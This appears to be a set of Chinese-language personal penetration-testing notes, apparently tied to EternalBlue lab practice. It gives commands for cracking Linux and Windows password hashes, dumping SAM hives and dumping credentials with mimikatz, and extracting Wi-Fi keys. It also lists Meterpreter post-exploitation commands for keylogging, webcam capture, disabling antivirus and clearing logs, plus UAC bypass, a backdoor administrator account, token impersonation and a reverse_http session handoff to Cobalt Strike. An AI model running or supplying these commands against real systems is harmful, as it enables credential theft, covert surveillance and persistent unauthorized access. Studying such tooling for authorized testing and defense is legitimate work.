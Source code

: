 linux密码爆破
john test.txt --format=crypt

 john爆破出现Using default input encoding: UTF-8 No password hashes loaded (see FAQ)
 我以为是
 >在Vim中直接进行转换文件编码,比如将一个文件转换成utf-8格式  
`:set fileencoding=utf-8`
查看文件格式  
`:set fileformat?`
设置文件格式为 unix  
`:set fileformat=unix`

结果不是
 出现这个提示不是说明破解失败了，而是这个hash以前被你破解过，可以使用以下命令查看破解出的密码是什么。
使用下面这条命令即可解决
john --show password.txt

msf永恒之蓝命令执行后：
hashdump得到的值拿到最后32位字母数字组合可以在下图,注意类型是NTLM
![[Pasted image 20240318142344.png]]

![[Pasted image 20240318114658.png]]

unshadow命令基本上会结合/etc/passwd的数据和/etc/shadow的数据，创建1个含有用户名和密码详细信息的文件
unshadow /etc/passwd /etc/shadow > shadow

Windows的登录密码的hash值保存在SAM文件中，SAM是“security account manager”的首字母缩写。通常，它位于

```
  C:\windows\system32\config\SAM
```
SAM文件被Windows保护，不能直接读取，需借助工具，如[SAMInside](http://www.insidepro.com/download/saminside.zip)。找一台Windows7虚拟机，新建一个名为hashcat的管理员用户，并设置密码，在Windows7中下载并解压SAMInside后以管理员权限运行，然后点击File->Import Local Users vis Scheduler，如下图所示：
```css
//导出 SAM 和 System 文件：通过 reg 的注册表导出
reg save hklm\sam sam.hive 
reg save hklm\system system.hive
move 移动文件
//使用mimikatz读取SAM和System文件
lsadump::sam /sam:sam.hive /system:system.hive
```
```css
samdump2 system.hive sam.hive > hash.txt
```
```bash
john -format=NT hash.txt  #破解win,使用john自带的密码字典
john --show -format=NT hash.txt    #查看破解结果
```

[安全工具——John the Ripper - 先知社区](https://xz.aliyun.com/t/3958?time__1311=n4%2BxnD0DBDgGG%3DG8QrDsA3xCqxQTNfqhhqiI5x)
![[Pasted image 20240318155653.png]]

```
ssh2john ~/.ssh/id_rsa > id_rsa.hash
```

```
keepass2john newdb.kdb > newdb.kdb.hash
```

```
rar2john encrypted.rar > encrypted.rar.hash
```

>[!ips]
后渗透阶段:
在meterpreter > 中我们可以使用以下的命令来实现对目标的操作：
sysinfo             #查看目标主机系统信息
run scraper         #查看目标主机详细信息
hashdump        #导出密码的哈希
load kiwi           #加载
ps                  #查看目标主机进程信息
pwd                 #查看目标当前目录(windows)
getlwd              #查看目标当前目录(Linux)
search -f *.jsp -d e:\                #搜索E盘中所有以.jsp为后缀的文件
download  e:\test.txt  /root          #将目标机的e:\test.txt文件下载到/root目录下
upload    /root/test.txt d:\test      #将/root/test.txt上传到目标机的 d:\test\ 目录下getpid              #查看当前Meterpreter Shell的进程
PIDmigrate 1384     #将当前Meterpreter Shell的进程迁移到PID为1384的进程上
idletime            #查看主机运行时间
getuid              #查看获取的当前权限
getsystem           #提权
run  killav         #关闭杀毒软件
screenshot          #截图
webcam_list         #查看目标主机的摄像头
webcam_snap         #拍照
webcam_stream       #开视频
execute  参数  -f 可执行文件   #执行可执行程序
run getgui -u hack -p 123    #创建hack用户，密码为123
run getgui -e                #开启远程桌面
run post/windows/manage/enable_rdp
keyscan_start                #开启键盘记录功能
keyscan_dump                 #显示捕捉到的键盘记录信息
keyscan_stop                 #停止键盘记录功能
uictl  disable  keyboard     #禁止目标使用键盘
uictl  enable   keyboard     #允许目标使用键盘
uictl  disable  mouse        #禁止目标使用鼠标
uictl  enable   mouse        #允许目标使用鼠标
load                         #使用扩展库
run				             #使用扩展库
clearev                       #清除日志

mimikatz
```python
##右键以管理员权限运行
##获取调试权限
privilege::debug
#在具有Isass进程的权限才可以抓到密码
##抓取密码
sekurlsa::logonpasswords

```

wifi密码抓取
```css
netsh wlan show profile 
netsh wlan show profile name="ssid" KEY=clear
```

windows 控制台cmd乱码的解决办法 chcp 65001

开启远程桌面的办法
```cs
getuid
#如果当前是user权限要管理员权限才能开启3389
#要用到bypassuac提权
use exploit/windows/local/bypassuac
set session 1
run

run post/windows/manage/enable_rdp

#进入shell
net user hacker 123qwe.. /add
#将用户提升到管理员权限
net localgroup administrators hacker /add

rdesktop -u hacker -p 123qwe..  192.168.1.145
```

```Css
使用kiwi来获取靶机密码，注意这里需要进行的一个操作为进程迁移，因为我们这里上线到msf的载荷是32位的(即x86)，这里需要找一个64位的(即x64)进行进程迁移才能使用kiwi获取靶机密码

sessions -i 2
load kiwi
kiwi_cmd privilege::debug
ps
#getpid #查看meterpreter shell的进程号

migrate 1144
#kill 2496 #关闭进程
#run post/windows/manage/migrate #自动迁移进程

kiwi_cmd sekurlsa::logonPasswords

```

遇到杀软，无法甜土豆提权，可msf获得会话后假冒令牌提权
```cs
load incognito
list_tokens -u
impersonate_token "NT AUTHORITY\SYSTEM"
getuid
```

msf联动cs
```Css
回到msf，输入background，将我们得到的会话放在后台
use exploit/windows/local/payload_inject
set payload windows/meterpreter/reverse_http
set lport 1233 #cobaltstrike监听的端口
set lhost 192.168.19.129 #cobaltstrike监听的ip
set disablepayloadhandler true #默认情况下，payload_inject执行之后会在本地产生一个新的handler，由于我们已经有了一个，所以不需要在产生一个，所以这里我们设置为true
set session 1 #这里是获得的session的id
打开cs 开启监听，端口为1233，点击add添加监听
```

web服务器的php配置有个disable_functions可以禁用一些危险函数，可以用phpinfo查看是否开启，getshell后蚂蚁剑有插件市场可以绕过

设置tcp代理
这里因为有两个网段就先把路由添加上方便后续操作
msf操作
route add 192.168.138.0 255.255.255.0 2
route print 
session操作
run autoroute -s 192.168.138.0/24
run autoroute -p`


参考链接
[使用hashcat爆破各种hash | 若水斋](https://blog.werner.wiki/use-hashcat-crack-all-kinds-of-hash/)

[Windows 用户密码的加密方法与破解 | 国光](https://www.sqlsec.com/2019/11/winhash.html)

[永恒之蓝漏洞复现(ms17-010) - hkgan - 博客园](https://www.cnblogs.com/hkgan/p/17339860.html)

[SMBGhost\_RCE漏洞利用（MSF和CS联动） - FreeBuf网络安全行业门户](https://www.freebuf.com/vuls/277707.html)

[MSF中kiwi模块的使用\_load kivi-CSDN博客](https://blog.csdn.net/m0_53087192/article/details/112707016)